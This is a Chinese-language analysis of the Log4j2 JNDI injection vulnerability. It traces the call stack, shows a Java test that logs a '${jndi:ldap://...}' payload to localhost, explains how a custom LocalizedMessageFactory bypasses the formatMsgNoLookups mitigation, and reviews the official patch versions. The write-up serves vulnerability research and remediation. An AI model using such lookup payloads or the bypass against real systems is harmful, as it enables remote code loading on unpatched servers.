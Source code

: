 # Log4j2 JNDI注入分析


## 漏洞触发流程
漏洞触发过程的调用栈如下：
```
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:223, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1116, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1038, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:345, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:543, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:502, LoggerConfig (org.apache.logging.log4j.core.config)
log:485, LoggerConfig (org.apache.logging.log4j.core.config)
log:460, LoggerConfig (org.apache.logging.log4j.core.config)
log:82, AwaitCompletionReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2198, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2152, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2135, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2011, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:9, Test
```
`toSerializable:345, PatternLayout$PatternSerializer`之前的调用栈不怎么需要关注，在PatternLayout中，toSerializable函数会调用各个Converter对event进行处理（og4j2对每条日志通过MessageFactory创建message对象，然后创建event将message加入其中对event进行异步处理）
![](media/16393044809899/16393650967152.jpg)
`MessagePatternConverter`类的format方法会根据是否开始了lookup功能对日志内容进行lookup操作（[Log4j - Log4j 2 Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)）
首先会判断是否开始lookup功能，如果开启了lookup功能format函数会开始获取日志内容中被${}包含的内容认为是需要进行lookup动作的变量，进入replace流程，对变量进行替换
![](media/16393044809899/16393657792587.jpg)

在`StrSubstitutor`类的substitute方法，调用resolveVariable开始对变量进行处理
![](media/16393044809899/16393665967889.jpg)
在Interpolator类中lookup方法会根据冒号拆分输入进来的变量获取prefix也就是需要什么类型的lookup，然后从strLookupMap中根据字符串获取对应lookup类的对象，所有类型的lookup会被预先加载到这个map当中，这里获取到JndiLookup的对象然后调用其lookup方法
![](media/16393044809899/16393683297146.jpg)
lookup方法最终调用jndiManager的lookup函数触发漏洞
![](media/16393044809899/16393688340997.jpg)

## 修复方式的一些问题

各种文章给出的修复方式很多，这里提一个小问题，影响不大

跟多修复方案提到了设置log4j2.formatMsgNoLookups为true，但这里看`MessagePatternConverter`类的format方法有两处replace的调用点

![](media/16393044809899/16393736999681.jpg)

第一处就是正常利用进入的地方需要判断formatMsgNoLookups是否为false，第二处不需要判断，但需要满足msg的类型不能是`StringBuilderFormattable`并且`result`不能为null

从这段代码中可以看到msg是通过`event.getMessage()`获取的是一个Message类型的对象，`StringBuilderFormattable`是一个interface，之需要找一个类实现了Message但是没有实现StringBuilderFormattable就可以了，Message接口的实现类如下：

![](media/16393044809899/16393750258501.jpg)
逐个找可以发现一个LocalizedMessage类是满足需要的，在log4j中，Message对象都是通过MessageFactory创建的系统也内置了LocalizedMessageFactory工厂类，在getlogger时可以通过参数设置使用哪一个MessageFactory，实际代码测试一下，这里随便选择一个ResourceBundle的实现类
```java
AuthResources resourceBundle = new AuthResources();
LocalizedMessageFactory localizedMessageFactory = new LocalizedMessageFactory(resourceBundle);
Logger logger =  LogManager.getLogger(Test.class,localizedMessageFactory);
logger.error("${jndi:ldap://127.0.0.1:1111/Exp1}");
```
可以看到在关闭lookup的情况下依旧是可以触发的
![](media/16393044809899/16393756929738.jpg)
但这个利用场景就非常有限了，要求代码必须要指定特定的MessageFactory，但在推修过程中如果选择设置log4j2.formatMsgNoLookups为true这种方式，还是需要扫描代码在getlogger时是否自定义了MessageFactory，LocalizedMessageFactory因为默认是没有提供无参构造函数的，所以只能在代码中实例化，无法通过配置文件进行配置，其他MessageFactory需要检查配置文件中是否有lo4j2.messageFactory配置项

## 官方修复方案的几个版本

### 2.15.0-rc1
在2.15.0的代码中，lookup默认是关闭的，开启需要在配置文件的pattern中指明%msg{lookups}%n开启lookup功能

在JndiManager这个类的lookup增加了白名单功能限制协议头和请求地址，默认的协议头支持java、ldap、ldaps，默认的地址只支持本地地址，但实际实现有明显瑕疵，处理UR如果异常就可以直接触发漏洞了

### 2.15.0-rc2
处理URI白名单补充了异常退出，捕获异常后不进入lookup流程

### 2.15.1-rc1
增加JndiLookup开关log4j2.enableJndi默认为false，默认关闭lookup开关和JndiLookup开关

### 2.16.0-rc1
参数中不再支持lookup功能

## 总结
临时方案先处理处理，让官方慢慢修，让子弹飞一会，让几千开发大哥天天追更不合适